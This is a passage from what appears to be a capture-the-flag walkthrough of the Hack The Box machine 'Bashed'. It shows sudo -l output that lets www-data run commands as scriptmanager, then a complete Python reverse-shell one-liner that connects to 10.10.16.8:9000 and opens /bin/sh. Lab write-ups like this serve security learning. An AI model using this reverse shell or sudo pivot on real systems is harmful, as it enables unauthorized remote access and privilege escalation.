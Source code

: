 ## sudo -l

```
www-data@bashed:/tmp$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

* we can run commands as scriptmanager using `sudo -u scriptmanager <command>`
* we can get a connection back from scriptmanager
* `sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.8",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
